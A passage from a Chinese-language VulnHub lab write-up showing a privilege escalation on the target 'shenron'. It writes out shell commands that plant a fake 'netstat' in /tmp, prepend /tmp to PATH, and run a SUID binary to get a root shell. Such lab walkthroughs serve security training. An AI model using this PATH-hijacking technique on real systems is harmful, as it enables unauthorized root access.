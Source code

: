 ![image-20220826164343344](vulnhub靶场.assets/image-20220826164343344.png)

> 执行结果为netstat 命令，**提权思路：利用环境变量提权**
>
> 

~~~bash
cd /tmp
touch netstat
chmod 777 netstat
echo '/bin/bash' > netstat
export PATH=/tmp:$PATH
/home/shenron/network

~~~

**提权成功**

![image-20220826164855285](vulnhub靶场.assets/image-20220826164855285.png)

